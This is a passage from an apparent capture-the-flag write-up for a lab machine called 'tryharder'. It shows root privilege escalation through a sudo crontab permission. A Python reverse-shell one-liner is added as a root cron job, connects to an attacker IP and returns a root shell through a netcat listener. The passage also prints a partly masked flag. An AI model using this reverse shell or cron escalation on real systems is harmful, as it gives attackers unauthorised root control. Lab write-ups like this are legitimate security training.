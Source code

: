 User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
Crontab
Let’s edit the crontab with sudo crontab -e and add the following line:

* * * * * python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
Now, open a listener and wait 1 minute to get a root shell:

kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.144.133] 44900
bash: cannot set terminal process group (2476): Inappropriate ioctl for device
bash: no job control in this shell
root@tryharder:~# ls -la
ls -la
total 44
drwx------  6 root root 4096 May 25 15:46 .
drwxr-xr-x 25 root root 4096 May 23 14:40 ..
lrwxrwxrwx  1 root root    9 May 11 12:34 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 May 12 16:31 .cache
drwx------  3 root root 4096 May 12 16:31 .gnupg
drwxr-xr-x  3 root root 4096 May 14 14:00 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
----------  1 root root  117 May 18 11:59 root.txt
-rw-r--r--  1 root root   75 May 11 13:29 .selected_editor
drwx------  2 root root 4096 May 18 12:28 .ssh
-rw-------  1 root root 1880 May 25 15:46 .viminfo
Root flag
And access the root flag:

root@tryharder:~# cat root.txt
cat root.txt
THM{40f*****ee2}


